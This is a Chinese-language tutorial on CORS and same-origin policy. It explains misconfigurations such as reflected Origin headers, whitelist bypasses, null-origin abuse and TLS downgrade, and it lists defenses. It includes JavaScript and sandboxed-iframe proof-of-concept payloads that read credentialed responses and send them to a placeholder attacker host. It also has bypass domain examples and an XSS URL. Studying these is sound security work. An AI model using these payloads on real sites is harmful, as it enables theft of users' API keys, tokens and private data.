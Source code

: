 - [CORS(Cross-origin resource sharing)](#corscross-origin-resource-sharing)
  - [跨域请求](#跨域请求)
  - [同源策略(SOP)](#同源策略sop)
  - [跨域资源共享（CORS）](#跨域资源共享cors)
      - [客户端指定的Access-Control-Allow-Origin头](#客户端指定的access-control-allow-origin头)
      - [Origin headers白名单绕过](#origin-headers白名单绕过)
      - [null origin Header](#null-origin-header)
      - [存在XSS的受信任源](#存在xss的受信任源)
      - [绕过TLS加密](#绕过tls加密)
    - [防御](#防御)
  - [其它跨域解决方案](#其它跨域解决方案)
    - [通过jsonp跨域](#通过jsonp跨域)
    - [document.domain + iframe跨域](#documentdomain--iframe跨域)
    - [location.hash + iframe](#locationhash--iframe)
    - [window.name + iframe跨域](#windowname--iframe跨域)
    - [postMessage跨域](#postmessage跨域)
    - [nginx代理跨域](#nginx代理跨域)
    - [nodejs中间件代理跨域](#nodejs中间件代理跨域)
    - [WebSocket协议跨域](#websocket协议跨域)
- [参考](#参考)
# CORS(Cross-origin resource sharing)
## 跨域请求
跨域是指一个域下的文档或脚本试图去请求另一个域下的资源.
1. 资源跳转：A链接、重定向、表单提交.
2. 资源嵌入：`<link>、<script>、<img>、<frame>`等dom标签，还有样式中background:url()、@font-face()等文件外.
3. 脚本请求：js发起的ajax请求、dom和js对象的跨域操作等.
## 同源策略(SOP)
同源策略/SOP（Same origin policy）是一种约定,所谓同源是指"**协议+域名+端口**"三者相同,即便两个不同的域名指向同一个ip地址,也非同源.

同源策略限制不同源网站之中以下几种行为：

1. Cookied、LocalStorage 和 IndexDB 无法读取
2. DOM 和 JS对象无法获得
3. AJAX请求不能发送

## 跨域资源共享（CORS）
跨源资源共享（CORS）是网站用来使Web浏览器放宽同源策略的技术，从而实现不同网站之间的跨域通信.  

普通跨域请求:  
服务端设置
```
Access-Control-Allow-Origin: https://www.a.com  
```
这将允许htpps://www.a.com访问自己页面的内容,但默认情况下无法通过CORS请求凭据(cookie,csrf令牌).  
如果需要携带凭据访问的话则需要服务器启用以下Header.  
```
Access-Control-Allow-Credentials: true
```  

CORS不支持使用通配符来匹配所有子域,如
```
Access-Control-Allow-Origin: *.a.com
```  
该方式是不支持的,唯一支持的通配符是只能接受全部站点.
```
Access-Control-Allow-Origin: *
```  
且通配符`*`和Header`Access-Control-Allow-Credentials: true`不能共存  

#### 客户端指定的Access-Control-Allow-Origin头 
Origin头:当发生跨域请求，或者同域时发送post请求，就会自动携带origin请求头,请求头origin表明了请求来自于哪个站点。包括且仅仅包括协议、域名和端口，并不包含任何路径信息.  

一些应用因为要维护大量的白名单域名与自己进行通信,这时候则会采取直接从请求的`Origin`Header来自动设置`Access-Control-Allow-Origin`而没有任何检查.  
```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```  
如果响应包含任何敏感信息，如API密钥或CSRF令牌，则可以通过在网站上放置以下脚本来获取这些信息。  
```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};
```  
#### Origin headers白名单绕过
因为CORS不支持`*.domain`的方式来匹配,有些应用会建立一个白名单,然后将请求中的`Origin`Header字段与白名单内的域名进行匹配,如果在白名单内则自动设置对应的`Access-Control-Allow-Origin`头.  
而白名单的实现方式则可能会造成绕过,如往往只匹配url开头或者结尾,或者使用一些不严重的正则表达式.  
只匹配`main.com`结尾->`evilmain.com`.  
只匹配`main.com`开头->`main.com.evil.com`
#### null origin Header
Origin header头支持值为null,在以下情况可能会发送null Origin Header.  
1. 跨域重定向.
2. 序列化数据请求.
3. 使用file:协议的请求
4. 沙盒跨域请求.
有些应用为了支持本地开发时方便,也会将null值加入白名单中,这导致可以通过null origin Header来跨域读取数据.  
通过沙盒的iframe标签发送带null origin Header的跨域请求.
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```
#### 存在XSS的受信任源
当正确配置CORS名单时,如果白名单中的域存在XSS,那么则可以利用存在XSS的网站通过CORS来获取网站的敏感数据.
```
https://subdomain.vulnerable-website.com/?xss=<script>cors poc</script>
```
#### 绕过TLS加密
如果应用使用https,但白名单允许使用http协议的网站进行交互,则可能导致中间人攻击.
1. 攻击者拦截受害者的任意http请求,并将其重定向到白名单内的http协议网站.
2. 拦截到白名单http协议网站的请求,在响应中注入对https应用的CORS请求.
3. 浏览器请求使用https的应用获取敏感数据,因为来源在白名单中,敏感数据被返回.
4. 攻击者收到响应中的敏感数据.
### 防御
1. 正确配置跨域请求
如果 Web 资源包含敏感信息，则应在标头中正确指定源。Access-Control-Allow-Origin
2.仅允许受信任的站点
这似乎是显而易见的，但标头中指定的来源应仅是受信任的站点。特别是，动态反映来自跨源请求的源而无需验证是很容易被利用的，应避免使用。Access-Control-Allow-Origin
3.避免将空列入白名单
避免使用标头 。来自内部文档和沙盒请求的跨源资源调用可以指定源。应根据专用服务器和公共服务器的受信任源正确定义 CORS 标头。Access-Control-Allow-Origin: nullnull
4.避免在内部网络中使用通配符
避免在内部网络中使用通配符。当内部浏览器可以访问不受信任的外部域时，仅信任网络配置来保护内部资源是不够的。
5.CORS 不能替代服务器端安全策略
CORS定义了浏览器行为，绝不能替代服务器端对敏感数据的保护 - 攻击者可以直接伪造来自任何受信任来源的请求。因此，除了正确配置的 CORS 之外，Web 服务器还应继续对敏感数据（如身份验证和会话管理）应用保护。
## 其它跨域解决方案

### 通过jsonp跨域
### document.domain + iframe跨域
### location.hash + iframe
### window.name + iframe跨域
### postMessage跨域
### nginx代理跨域
### nodejs中间件代理跨域
### WebSocket协议跨域

# 参考

https://segmentfault.com/a/1190000011145364  
https://portswigger.net/web-security/cors